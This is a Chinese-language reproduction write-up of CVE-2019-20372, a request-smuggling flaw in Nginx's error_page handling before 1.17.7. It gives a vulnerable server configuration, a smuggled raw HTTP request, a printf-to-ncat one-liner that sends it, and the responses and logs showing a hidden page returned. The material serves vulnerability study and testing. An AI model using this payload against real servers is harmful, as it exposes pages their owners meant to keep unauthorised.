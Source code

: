 （CVE-2019-20372）Nginx error\_page 请求走私漏洞
================================================

一、漏洞简介
------------

Nginx 1.17.7之前版本中 error\_page
存在安全漏洞。攻击者可利用该漏洞读取未授权的Web页面。

二、漏洞影响
------------

Ngnix \< 1.17.7

三、复现过程
------------

> 错误配置

    server {
     listen 80;
     server_name localhost;
     error_page 401 http://example.org;
     location / {
     return 401;
     }
    }
    server {
     listen 80;
     server_name notlocalhost;
     location /_hidden/index.html {
     return 200 'This should be hidden!';
     }
    }

这时候我们可以向服务器发送以下请求

    GET /a HTTP/1.1
    Host: localhost
    Content-Length: 56
    GET /_hidden/index.html HTTP/1.1
    Host: notlocalhost

我们看一下服务器是怎么处理的

    printf "GET /a HTTP/1.1\r\nHost: localhost\r\nContent-Length: 56\r\n\r\nGET
    /_hidden/index.html HTTP/1.1\r\nHost: notlocalhost\r\n\r\n" | ncat localhost 80 --noshutdown

等于说是吧两个请求都间接的执行了，我们看一下burp里面的返回值

    HTTP/1.1 302 Moved Temporarily
    Server: nginx/1.17.6
    Date: Fri, 06 Dec 2019 18:23:33 GMT
    Content-Type: text/html
    Content-Length: 145
    Connection: keep-alive
    Location: http://example.org
    <html>
    <head><title>302 Found</title></head>
    <body>
    <center><h1>302 Found</h1></center>
    <hr><center>nginx/1.17.6</center>
    </body>
    </html>
    HTTP/1.1 200 OK
    Server: nginx/1.17.6
    Date: Fri, 06 Dec 2019 18:23:33 GMT
    Content-Type: text/html
    Content-Length: 22
    Connection: keep-alive
    This should be hidden!

再一下nginx服务器里面的日志

    172.17.0.1 - - [06/Dec/2019:18:23:33 +0000] "GET /a HTTP/1.1" 302 145 "-" "-" "-"
    172.17.0.1 - - [06/Dec/2019:18:23:33 +0000] "GET /_hidden/index.html HTTP/1.1" 200 22 "-"
